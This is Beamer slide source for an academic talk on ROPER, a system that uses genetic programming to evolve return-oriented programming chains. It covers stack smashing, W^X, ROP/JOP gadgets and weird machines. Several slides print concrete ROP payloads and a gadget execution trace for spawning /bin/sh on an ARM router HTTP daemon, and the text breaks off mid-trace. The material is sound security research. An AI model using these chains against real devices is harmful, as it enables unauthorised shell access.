\documentclass[9pt]{beamer}
\usepackage[utf8x]{inputenc}
\usepackage{chronology}
\usepackage{hyperref}
\usepackage{multimedia}
\usepackage{multicol,calc,listings}
\usepackage{dark-beamer-theme/theme/dbt}
%\beamerdefaultoverlayspecification{}
%\usetheme{dbt}

\setlength{\columnsep}{48pt}
\setlength{\columnseprule}{0pt}
\usepackage{booktabs,url} % For formal tables
{\ttfamily \hyphenchar\the\font=`\-}
\lstset{
  basicstyle=\ttfamily,
  keepspaces=true,
  columns=fullflexible,
  escapeinside={(*}{*)}
}
%%% XeLaTeX engine for Ubuntu Font support
\usepackage{xltxtra}
\usepackage{tikz}
\setsansfont[
BoldFont=Ubuntu-Bold.ttf,
ItalicFont=Ubuntu-Italic.ttf,
BoldItalicFont=Ubuntu-BoldItalic.ttf
]
{UbuntuMono-Regular.ttf}
\setmonofont{UbuntuMono-Regular.ttf}
{\ttfamily \hyphenchar\the\font=`\-}

\newcommand\Wider[2][3em]{%
\makebox[\linewidth][c]{%
  \begin{minipage}{\dimexpr\textwidth+#1\relax}
  \raggedright#2
  \end{minipage}%
  }%
}

\newcommand{\Gap} { \\ \ \vspace{8pt} }

\newcommand{\BackgroundImage}[2][0.3] {
  \tikz[remember picture,overlay]
  \node[opacity=#1+0.1, inner sep=0pt] at (current page.center)
       {\includegraphics[width=\paperwidth,height=\paperheight]{#2}};
       \clearpage
}

\newcommand{\TwoCol}[3][.5] {
  \begin{columns}
    \begin{column}{#1\textwidth}
      #2
    \end{column}
    \begin{column}{\textwidth - (#1\textwidth)}
      #3
    \end{column}
  \end{columns}
}

\newcommand{\TwoColItems}[3][.5] {
  \TwoCol {
    \begin{itemize}
      #2
    \end{itemize}
  } {
    \begin{itemize}
      #3
    \end{itemize}
  }
}

\newcommand{\point}[1] {
\item #1
}

\usetikzlibrary{chains}
\makeatletter
\tikzset{west below/.code=\tikz@lib@place@handle@{#1}{north west}{0}{-1}{south west}{1}}

\tikzset{
  typnode/.style={anchor=north west, text width=\textwidth, inner sep=0mm},
  data/.style={draw=gray, rectangle, font=\scriptsize, inner sep=0.5mm},
}

\title{Return Oriented Program Evolution with ROPER}
\author{Olivia Lucca Fraser}

\institute{NIMS Lab, Dalhousie University}

\begin{document}

%\maketitle


\begin{frame}%{\theframenumber. Overview}

  \BackgroundImage[0.2]{../images/roper.png}
  \TwoCol {
     %
\includegraphics[width=\textwidth]{../images/roper.png} 
      {\Huge 
        \begin{tabular}{l}
          \texttt{R\,E\,T\,U\,R\,N} \\ 
          \texttt{O\,R\,I\,E\,N\,T\,E\,D} \\
          \texttt{P\,R\,O\,G\,R\,A\,M\,M\,E} \\
          \texttt{E\,V\,O\,L\,U\,T\,I\,O\,N}~{\large \texttt{with}} \\
          \texttt{R\,O\,P\,E\,R} \\
          
%          \\
%          \\
        \end{tabular}
      }
      {\large
        \begin{tabular}{l l}
          \\ \\
          \texttt{Olivia Lucca Fraser} 
          & \url{oblivia@paranoici.org} \\
          \\ \\ 
%          \texttt{Nur Zincir-Heywood} 
%          & \url{zincir@cs.dal.ca} \\
%          \texttt{Malcolm Heywood}
%          & \url{mheywood@cs.dal.ca} \\
          %\texttt{John T. Jacobs}
          %& \url{John_T_Jacobs@raytheon.com} \\
        \end{tabular}
        \begin{tabular}{l}
          \\
          \texttt{NIMS Laboratory @ Dalhousie University}\\
          %
%        \item
          %          \texttt{Raytheon Space \& Airborne Systems}\\
          \url{https://github.com/oblivia-simplex} \\
          \\
        \end{tabular}
      }
  } {
  }
\end{frame}

\begin{frame}%{\theframenumber. Overview}
  \BackgroundImage[0.2]{../images/roper.png}
  \begin{columns}
    \begin{column}{.5\textwidth}
     %
\includegraphics[width=\textwidth]{../images/roper.png} 
      {\Huge 
        \begin{tabular}{l}
          \texttt{R\,E\,T\,U\,R\,N} \\ 
          \texttt{O\,R\,I\,E\,N\,T\,E\,D} \\
          \texttt{P\,R\,O\,G\,R\,A\,M\,M\,E} \\
          \texttt{E\,V\,O\,L\,U\,T\,I\,O\,N}~{\large \texttt{with}} \\
          \texttt{R\,O\,P\,E\,R} \\
          \\
          \\
          \\
        \end{tabular}
      }
      {\large
        \begin{tabular}{l}
          \\
          \\ %\texttt{Olivia Lucca Fraser} \\
          \\ %\url{oluccafraser@tenable.com} \\
          \\ %\url{https://github.com/oblivia-simplex} \\
          \\ %\texttt{AtlSecCon, Halifax, April 28, 2017} \\
          \\
          \\
        \end{tabular}
      }
    \end{column}
    \begin{column}{.5\textwidth}

      \vspace{80pt}
      
      {\Large ~Questions: }
      \begin{itemize}
      \item What is return oriented programming?
      \item How might evolutionary methods be applied to ROP?
      \item How do we best cultivate the evolution of ROP payloads?
      \item What sort of things are they capable of? 

      \end{itemize}
    \end{column}
  \end{columns}
\end{frame}

\begin{frame}{\theframenumber. Bird's-Eye View of ROPER}
  %% ROPER's pattern matching functionality
  ROPER is a system for evolving populations of ROP-chains for a target executable. 
      
\includegraphics[width=\textwidth]{../images/architecture-transparent.png}
\end{frame}

\begin{frame}{\theframenumber. Bird's-Eye View of ROPER}
  %% ROPER's pattern matching functionality
  ROPER is a system for evolving populations of ROP-chains for a target executable. 
      
\includegraphics[width=\textwidth]{../images/architecture-transparent-gadget-extraction.png}
\end{frame}


  %How do we separate \textbf{data} and \textbf{code}?
\begin{frame}{\theframenumber. The Fundamental Problem of Information Security}
  %How do we separate \textbf{data} and \textbf{code}?
  At bottom, in computation, there is no essential distinction between data and
  code. The fundamental problem of infosec is to find ways of imposing this
  distinction in specific contexts, and ensuring that it locally holds. 
\end{frame}

\begin{frame}{\theframenumber. Smashing the Stack for Fun \& Profit}
  \TwoCol {
      \small
      \begin{itemize}
      \item The hacker feeds some input `data' to the target process, which...
      \item is written to a buffer in that process's stack memory...
      \item but is longer than expected, and spills over the end of that buffer...
      \item corrupting the current frame's return address, saved on the stack...
      \item so that it now points to where the attacker's `data' was written...
      \item data that is \textbf{actually} an array of machine code instruction!
      \item The \textbf{return} instruction pops this new address into the program counter...
      \item redirecting control to the code the hacker supplied!
      %\item [See Aleph One, ``Smashing the Stack for Fun and Profit'', in Phrack 49]
      \end{itemize}
  } {
      %% :TODO: Get a better diagram, one of the stack frame for a function.
      
\includegraphics[width=\textwidth]{../images/stack_frame.png}
  
  }
\end{frame}

\begin{frame}{\theframenumber. Smashing the Stack for Fun \& Profit}
  \begin{columns}
    \begin{column}{.5\textwidth}
      \small
      \begin{itemize}
      \item The hacker feeds some input `data' to the target process, which...
      \item is written to a buffer in that process's stack memory...
      \item but is longer than expected, and spills over the end of that buffer...
      \item corrupting the current frame's return address, saved on the stack...
      \item so that it now points to where the attacker's `data' was written...
      \item data that is \textbf{actually} an array of machine code instruction!
      \item The \textbf{return} instruction pops this new address into the program counter...
      \item redirecting control to the code the hacker supplied!
      %\item [See Aleph One, ``Smashing the Stack for Fun and Profit'', in Phrack 49]
      \end{itemize}
    \end{column}
    \begin{column}{.5\textwidth}
      %% :TODO: Get a better diagram, one of the stack frame for a function.
      
\includegraphics[width=\textwidth]{../images/stack_frame_attack.png}
    \end{column}
  \end{columns}
  
\end{frame}
\begin{frame}{\theframenumber. Smashing the Stack \textbf{without} Fun or Profit: $W\oplus X$}
  \begin{columns}
    \begin{column}{.5\textwidth}
      \begin{itemize}
      \item So processor vendors offered support for controlling whether a given page of memory was marked as executable, affording much finer-grained privilege control to the operating system.
       
      \item Most OSes then adopted the policy of, whenever feasible, mapping each page of a process memory as Writeable \textbf{xor} Executable
      \item On Unix systems, this defence is called $W\oplus X$. Windows users know it as ``Data Execution Prevention'', or DEP.
      \item The classic shellcode attack fails, because the shellcode, \textbf{written} to the stack, cannot be \textbf{executed}.
      \end{itemize}
    \end{column}
    \begin{column}{.5\textwidth}
      
\includegraphics[width=\textwidth]{../images/stack_frame_attack_w^x.png}
    \end{column}
  \end{columns}
\end{frame}


\begin{frame}{\theframenumber. A Quick Introduction to Return Oriented Programming}
  \begin{columns}
    \begin{column}{.4\textwidth}
      
\includegraphics[width=\textwidth]{../images/macgyver-transparent.png}
    \end{column}
    \begin{column}{.6\textwidth}
      \begin{itemize}
      \item SITUATION: You have found an exploitable vulnerability in a target process, and are able to corrupt the instruction pointer.
        \item PROBLEM: You can't write to executable memory, and you can't execute writeable memory. Old-school shellcode attacks won't work. 
        \item SOLUTION: You can't introduce any code of your own, but you \textbf{can} reuse pieces of memory that are already executable. The trick is rearranging them into something useful.
      \end{itemize}
    \end{column}
    \end{columns}
\end{frame}

%\begin{frame}{\theframenumber. Quick Primer on Call Stacks}

  % return to libc
  % structure of call stack
  % diagram of overwritten return address.
%\end{frame}

%\begin{frame}{\theframenumber. Return-to-libc}
%  One tactic, made famous by Solar Designer, is to simply reuse entire functions that have been loaded into executable memory. [bit more on this, and why it's not enough nowadays]
%\end{frame}


\begin{frame}{\theframenumber. What is a ROP gadget?}

  \BackgroundImage[0.15]{../images/macgyver2-transparent.png}

  \begin{columns}
    \begin{column}{.5\textwidth}
      \begin{itemize}
      \item A `gadget' is any chunk of machine code that
        
        \begin{enumerate}
        \item[1.] is already mapped to executable memory
        \item[2.] allows us to regain control of the instruction pointer after it executes
        \item[3.] in virtue of controlling certain data in memory (typically the stack)
        \end{enumerate}
      \end{itemize}
    \end{column}
    \begin{column}{.5\textwidth}
      \begin{itemize}
      \item this lets us chain `gadgets' together, into what's called a `ROP chain'
      \item in a ROP chain, each gadget performs its operation, and then sends the instruction pointer to the next gadget in the chain
      \end{itemize}
    \end{column}
  \end{columns}
\end{frame}

\begin{frame}{\theframenumber. What is a ROP chain?}

  \BackgroundImage[0.15]{../images/macgyver2-transparent.png}

  \begin{columns}
    \begin{column}{.5\textwidth}
      \begin{itemize}

      \item `\textbf{Return}-oriented programming' gets its name from using a certain type of RETURN instruction to regain control of the instruction pointer:
      \item RETURN instructions that work by popping the top of the stack into the instruction pointer
      \item The address popped from the stack by RETURN is meant to be a sort of `bookmark', pointing to the site from which a function was called...
      \end{itemize}

    \end{column}
    \begin{column}{.5\textwidth}
      \begin{itemize}
      \item ...but this is just a convention. If an instruction pops an address from the stack into the IP, it will do so no matter \emph{what} address we put there.
      \item and we can take advantage of this to `chain' arbitrarily many gadgets together. As each reaches its RETURN instruction, it sends the instruction pointer to the next gadget in the chain.
      \end{itemize}
    \end{column}
  \end{columns}
\end{frame}


\begin{frame}{\theframenumber. Generalization of the Gadget Concept}
  % JOP, etc.
  % free branch
  \BackgroundImage[.2]{../images/instruments_for_mutant_women.png}
  \begin{itemize}
  \item the precise meaning of a `return' instruction is architecture-dependent; not all architectures implement \textbf{return} as a pop into PC (MIPS, e.g.)
    
  \item the essential idea we're after is \textbf{stack-controlled jumps}
  \item this means we don't need to limit our search to `return's
  \item we can broaden it to include any sequence of instructions that culminates in a jump to a location that's determined by the data on the stack
  \item this gives us what's commonly called `JOP', or jump-oriented programming
  \end{itemize}
\end{frame}

\begin{frame}{\theframenumber. Weird Machines}
  \BackgroundImage[0.2]{../images/macgyver2-transparent.png}
  \begin{itemize}
  \item Both ROP and JOP subvert attempts to separate data and code ($W\oplus X$) with a shift in perspective, which reveals a different, spontaneous machine model -- an accidental virtual machine
  \item with a new instruction set: the gadgets,
  \item a new ``instruction pointer'': the underlying machine's stack pointer,
  \item and a new mechanism of execution: popping the stack, and loading (directly or indirectly) the top value into PC.
  \item What it reveals is that the separation of data and code that $W\oplus X$ effects only holds at a particular level of abstraction...
  \item ... a level that leaks.
  \end{itemize}
\end{frame}

\begin{frame}{\theframenumber. Weird Machines}
  \BackgroundImage[0.15]{../images/macgyver2-transparent.png}
  \begin{itemize}
  \item A ROP-chain is code for what the LangSec community calls a ``weird machine''.
  \item ``Weird machine'' here means ``a more powerful, programmable execution environment than intended or expected'', as Halvar Flake put it.
  \item The concept is very general, \& provides a systematic way of thinking about exploitation. 
  \item We could even say that ``Exploitation \textbf{is} setting up, instantiating, and programming a weird machine.'' (Halvar Flake @ Infiltrate, 2011)
  \end{itemize}
\end{frame}

\begin{frame}{\theframenumber. Evolving Code for Weird Machines}
  \BackgroundImage[0.3]{../images/lifefindsaway.png}
  Why is this a good suitable problem space for evolutionary methods?
  \begin{itemize}
  \item we are exploring a poorly-understood, undocumented, \& quite unique machine model, each time
  \item each gadget causes a rather noisy \& irregular change in its state space, making the code challenging to reason about
  \item the cognitive abilities humans ordinarily (well, ideally) bring to code design are here at a disadvantage
  \item evolution in general, \& \textbf{genetic programming} in particular, tends to be an extraordinarily good algorithm for finding \& exploiting non-obvious resources in an environment
  \item ``life, uh...
  \item[] ~~~~~~~~~~~~~~finds a way.''
  \end{itemize}
\end{frame}

%% transparent background image: junkyard
\begin{frame}{\theframenumber. Challenges ROP Poses for Genetic Programming}

  \BackgroundImage[0.10]{../images/2ropers.png}

  Looked at another way, however, these same features pose challenges for genetic programming:
  \begin{itemize}
  \item Genetic Programming often makes use of a highly specialized virtual machine, with a small and purposeful instruction set.
  \item Our `instruction set' is the set of gadgets extracted from a target binary.
  \item It is not small, typically numbering over 300 for an average-sized executable.
  \item It is not purposeful, but a disordered scrap heap of ill-fitting parts. 
  \item It is not uniformly distributed over the semantic space it represents.
  \end{itemize}
\end{frame}


\begin{frame}{\theframenumber. Uneven Raw Materials}

  \begin{center}
    Register usage in tomato-RT-N18U-httpd, an ARM router HTTP daemon
    
\includegraphics[width=\textwidth]{../images/tomato.png}
    \end{center}
  Operations are unevenly distributed across registers.
  %Unlike classical linear genetic programming, where you have the clean slate of a customized instruction set and VM, here, we're dealing with the rough ground of already-compiled machine code (for the ARM processor), and stuck with its idiosyncracies.

\end{frame}


%\begin{frame}{\theframenumber. Bird's-Eye View of ROPER}
  %% ROPER's pattern matching functionality
%      
\includegraphics[width=\textwidth]{../images/architecture-transparent.png}
%\end{frame}


 \begin{frame}{\theframenumber. An Equally Quick Introduction to Genetic Programming}
   
   
   \tikz[remember picture,overlay]
   \node[opacity=0.6, inner sep=0pt] at (current page.center)
        {
\includegraphics[width=\paperwidth,height=\paperheight]{../images/AI_ooze_transparent.png}};
        \clearpage

 %  
\includegraphics[width=\textwidth]{../images/AI_ooze_transparent.png}
        \begin{columns}
          \begin{column}{.5\textwidth}
            What is necessary in order for natural selection to take place?
            \
            
            \begin{enumerate}
            \item Reproduction with mutation 
            \item Variation in performance
            \item Selection by performance
            \end{enumerate}
            \
            
            Anything that implements these traits can implement Darwinian evolution. 
          \end{column}
          \begin{column}{.5\textwidth}
            % will appear on mulder's mouth % Including malware?
          \end{column}
        \end{columns}
 \end{frame}





%% \begin{frame}{\theframenumber. Evolutionary computation}
%%   \BackgroundImage[0.175]{../images/finches.png}
%%   \begin{columns}
   
%%     \begin{column}{.5\textwidth}
%%       The strategies ROPER adopts are drawn from the field of {evolutionary computation}, a broad class of approaches to the problem of machine intelligence that exploits the abstractness of natural selection by instantiating it in code.
%%       \vspace{8pt}

%%       In particular, ROPER draws on the tradition of genetic programming, which treats a stochastically generated set of programmes as the genotypes of a population, and their performance when executed as their phenotypes. \vspace{8pt}

%%      %% add timeline image, perhaps 
%%     \end{column}
%%     \begin{column}{.5\textwidth}
%%       Selective pressures are brought to bear on the phenotypes, in order to decide which genotypes are allowed to reproduce. Variation operators are applied to the genotypes, spawning new individuals into the population. 
%%       \vspace{8pt}

%%       Here, the genotypes are ROP-chains -- stacks of pointers into gadgets existing in executable memory -- and the phenotypes are the behavioural profiles those chains exhibit when hijacking the instruction pointer of the exploited process.
%%     \end{column}
%%   \end{columns}
%% \end{frame}

%% have more details on the implementation, instead. answer the questions
%% you want answered when you read someone else's genetic programming paper.
%% > representation
%% > variation operators
%% > selection operators
%% > fitness functions



\begin{frame}{\theframenumber. Bird's-Eye View of ROPER}
  %% ROPER's pattern matching functionality
      
\includegraphics[width=\textwidth]{../images/architecture-transparent-genetic-emulation.png}
\end{frame}


\begin{frame}{\theframenumber. Genetic Algorithm with Tournament Selection}
  \begin{center}
  
\includegraphics[height=.85\textheight,width=\textwidth]{../images/tournament.png}
  \end{center}
\end{frame}

%% \begin{frame}{\theframenumber. Genotype Representation}
%%   \begin{itemize}
%%     \item Individuals are represented as lists of 32-bit words, which may be either pointers to gadgets in the target binary, or immediate values.
%%     \item These words are grouped, internally, into `clumps', that loosely bind a gadget pointer to $n/4$ immediate values, where $n$ is the distance that the stack pointer is expected to shift when the gadget executes.
%%     \item This grouping allows us to apply the variation operators in a more controlled fashion.
%%   \end{itemize}
%% \end{frame}


%% %% TOP ALIGN THIS FRAME. (TODO)
%% \begin{frame}[t]{\theframenumber. Variation Operators}
%%   \begin{columns}
%%     \begin{column}{.5\textwidth}
%%       Crossover \& Macromutation
%%       \begin{itemize}
%%       \item \textbf{single-point crossover} is used
%%       %% \item unit: \textbf{clumps}, not individual pointers or values
%%       \item the crossover point (the clump link to sever) is selected using a weighted roulette wheel
%%       \item the weights for each link (their `viscosity') are proportionate the fitnesses of the ancestors in which those links occurred
%%       % \item we refer to this value as the link's `viscosity'
%%       \item objective: preservation of beneficial gene linkages
%%       \item there is a small chance that one parent is generated randomly, instead of being selected (`headless chicken crossover')
%%       \end{itemize}
      
%%     \end{column}
%%     \begin{column}{.5\textwidth}
%%       Micromutation
%%       \begin{itemize}
%%       \item alternatively, we may sometimes simply clone the parents while mutating them in the process
%%       \item our mutation operators preserve the clump sequence, and instead tweak the values \textbf{inside} one or more clumps
%%       \item the operations used include:
%%         \begin{itemize}
%%         \item bitwise and arithmetical operations
%%         \item permutations
%%         \item reference and dereference, in the value is a valid pointer
%%         \end{itemize}
%%       \end{itemize}
%%     \end{column}
%%   \end{columns}
%% \end{frame}

%% \begin{frame}{\theframenumber. Phenotype Representation}
%%   The phenotype, in this context, can be broken down into two parts:
%%   \begin{itemize}
%%   \item the outcome of the individual's execution, as a ROP-chain, in the host executable's environment, as represented by the resulting CPU context (emulated)
%%   \item the image of this context after being passed through one or more fitness functions
%%   \end{itemize}
%%   The fitness functions, too, can be broken down into three parts:
%%   \begin{itemize}
%%   \item a crash penalty, applied when the chain crashes the host process, proportionate to the frequency of crashes in the general population
%%   \item a metric reflecting degree of success in the chosen task (which may vary widely -- we have experimented with basic pattern matching, classification, and interactive games)
%%   \item a fitness-sharing modifier used to disincentivize crowding or overexploitation of low-hanging fruit, and to encourage niching and diversity
%%   \end{itemize}

\begin{frame}{\theframenumber. Implementation Details}

  \begin{tabular}{l | l}
    GENOTYPE REPRESENTATION & stack of gadget pointers \& dwords
    \\ \\
    VARIATION OPERATORS & single-point crossover (fitness weighted) \\
                        & or cloning with micromutation \\
    \\ \\
    PHENOTYPE REPRESENTATION & behaviour of ROP-chain in virtual CPU,\\
                             & loaded with target executable \\
    \\ \\
    FITNESS FUNCTIONS & crowding-modulated crash penalty \\
                      & performance in task \\
                      & niching/fitness-sharing modifier \\
  \end{tabular}
  
\end{frame}
\begin{frame}{\theframenumber. The Unicorn Emulation Library}
  \BackgroundImage[0.1]{../images/unicorn.png}
  In order to examine the behaviour of each ROP or JOP payload, I make use of Nguyen Anh Quynh's (excellent) Unicorn CPU Emulation library, which allows one to utilize QEMU's CPU modules without needing to spin up an entire QEMU instance.
  \Gap

  The target ELF binary is loaded into the memory of a Unicorn ARM instance (or array of such instances) at the beginning of the run, and the execution of the ROP chain is emulated by
  \begin{enumerate}
    \item loading the chain into the instance's stack space
    \item popping the first gadget address in the chain into the program counter (PC)
    \item and then activating the emulated CPU
  \end{enumerate}
  \
  
  This has been a terrifically useful tool for studying low-level processes on variou architectures, and I encourage anyone doing the same to look into it. 
\end{frame}
%% \end{frame}

%% collapse 3 prev slides into one
%% nice table

%% Add new slide answering John's questions
%% state which binary is being used
%% explain general nature of tool
\begin{frame}{\theframenumber. Pattern matching}
  \BackgroundImage[0.2]{../images/mario-shell.png}
%      The most basic type of problem that ROPER can breed a population of chains to solve is that achieving a determinate register state in the CPU, specified by a simple pattern consisting of integers and wildcards.
  %    \vspace{8pt}

%      This isn't the most intriguing thing that ROPER can do, but it is fairly useful, automating the ordinary, human task of assembling a ROP chain that prepares the CPU for a system call -- to spawn a process, write to a file, open a socket, etc.
      Suppose we wanted to prime the CPU for the call
      $$\texttt{execv("/bin/sh", ["/bin/sh"], 0);}$$
      \Gap
      
      We'd need a ROP chain that sets \texttt{r0} and \texttt{r1} to point to some memory location that contains \texttt{"/bin/sh"}, sets \texttt{r2} to 0, and \texttt{r7} to 11. Once that's in place spawning a shell is as simple as jumping to any given address that contains an \texttt{svc} instruction.
      \vspace{8pt}

\end{frame}

\begin{frame}{\theframenumber. Example of a Handwritten ROP-Chain on tomato-RT-N18U-httpd}
      \textbf{Payload}: \\
      \vspace{4pt}
      
      00013200~0002bc3e~0002bc3e~00000000~deba5e12~d000dl3d \\
      00015330~deba5e12~feedc0de~badb17e5~0000000b \\
      0001c64c 
      \Gap
      
\textbf{Runtime}: \\ 

00013200 pop \{r0, r1, r2, r3, r4, pc\} \\
R0: 0002bc3e \\
R1: 0002bc3e \\
R2: 00000000 \\
R7: ???????? \\
00015330 pop \{r4, r5, r6, r7, pc\} \\
R0: 0002bc3e \\
R1: 0002bc3e \\
R2: 00000000 \\
R7: 0000000b \\
0001c64c svcpl 0x00707070  % CHECK!

\end{frame}

\begin{frame}{\theframenumber. Shellcode Using Noisy Gadgets}
  This was a fairly trivial chain to write, and ROPER can usually discover similar ones fairly quickly. \Gap
  
  We can make the task more challenging by restricting the minimum gadget length and thereby forcing ROPER to manipulate more complex \& side-effect-prone instructions. \Gap
  
  One of ROPER's more peculiar solutions to this problem -- using gadgets from a Tomato router's HTTP daemon -- is on the next slide...
\end{frame}

\begin{frame}{\theframenumber. Specimen generated by ROPER}

  \tiny
  \textbf{Payload}:
  \\
  
000100fc 0002bc3e 0002bc3e 0002bc3e \\
00012780 0000000b 0000000b 0000000b 0000000b 0002bc3e \\
00016884 0002bc3e \\
00012780 0002bc3e 0002bc3e 0002bc3e 0002bc3e 0000000b \\
000155ec 00000000 0000000b 0002bc3e \\
000100fc 0002bc3e 0000000b 00000000 \\
0000b49c 0002bc3e 0000000b 0002bc3e 0000000b 0002bc3e \\
0000b48c 0002bc3e 00000000 0002bc3e 0002bc3e 0002bc3e \\
0000b48c 0002bc3e 0002bc3e 0002bc3e 0002bc3e 00000000 \\
00016918 0002bc3e 0000000b 0002bc3e 0002bc3e 0000000b \\
00015d24 0002bc3e 00000000 00000000 \\
00012a78 0000000b 00000000 \\
0000e0f8 00000000 \\
000109b4 0002bc3e 0000000b \\
0000b48c 0002bc3e 0002bc3e 0002bc3e 0000000b 0002bc3e \\
000100fc 0002bc3e 00000000 00000000 \\
000109b4 0002bc3e 0002bc3e \\
00016758 0000000b \\
0000e0f8 0002bc3e \\
000100fc 0002bc3e 00000000 0000000b \\
00012a78 0002bc3e 0002bc3e \\
0001569c 0000000b 0002bc3e 0002bc3e \\
0000bfc4 0002bc3e 0002bc3e \\
00013760 0000000b 0002bc3e 0000000b 0002bc3e 0000000b \\
0000bfc4 0002bc3e 0002bc3e \\
0000b49c 0000000b 00000000 0000000b 0000000b 0002bc3e \\
00016884 0002bc3e \\
00012a78 00000000 0000000b \\
00011fd8 0000000b \\
00016758 0002bc3e \\
0000e0f8 0002bc3e \\
00013760 00000000 0000000b 0002bc3e 0002bc3e 0002bc3e \\

\end{frame}


\begin{frame}{\theframenumber. Play-by-play of ROPER's Shellcode Attack}
\begin{multicols}{3}
\tiny
%\begin{lstlisting}
{\color{title};;~Gadget~0}

[000100fc]~~mov~r0,r6

[00010100]~~ldrb~r4,[r6],1

[00010104]~~cmp~r4,0

[00010108]~~bne~4294967224

[0001010c]~~rsb~r5,r5,r0

[00010110]~~cmp~r5,0x40

[00010114]~~movgt~r0,0

[00010118]~~movle~r0,1

[0001011c]~~pop~\{r4,r5,r6,pc\}
\vspace{4pt}

R0:~00000001

R1:~00000001

R2:~00000001

R7:~0002bc3e
\Gap

{\color{title};;~Gadget~1}

[00012780]~~bne~0x18

[00012798]~~mvn~r7,0

[0001279c]~~mov~r0,r7

[000127a0]~~pop~\{r3,r4,r5,r6,r7,pc\}
\vspace{4pt}

R0:~ffffffff

R1:~00000001

R2:~00000001

R7:~ffffffff
\Gap
\columnbreak


{\color{title};;~Gadget~2}

[00016884]~~beq~0x1c

[00016888]~~ldr~r0,[r4,0x1c]

%{\color{red}[0001688c]~~bl~4294967280}

%{\color{red}[0001687c]~~push~\{r4,lr\}}

\alert {[0001688c]~~bl~4294967280}

\alert {[0001687c]~~push~\{r4,lr\}}

[00016880]~~subs~r4,r0,0

[00016884]~~beq~0x1c

[000168a0]~~mov~r0,r1

[000168a4]~~pop~\{r4,pc\}
\vspace{4pt}


R0:~00000001

R1:~00000001

R2:~00000001

R7:~0002bc3e
\Gap


{\color{title};;~Extended~Gadget~0}

[\alert{00016890}]~~str~r0,[r4,0x1c]

[00016894]~~mov~r0,r4

[00016898]~~pop~\{r4,lr\}

[0001689c]~~b~4294966744

\alert{[00016674]~~push~\{r4,lr\}}

[00016678]~~mov~r4,r0

[0001667c]~~ldr~r0,[r0,0x18]

[00016680]~~ldr~r3,[r4,0x1c]

[00016684]~~cmp~r0,0

[00016688]~~ldrne~r1,[r0,0x20]

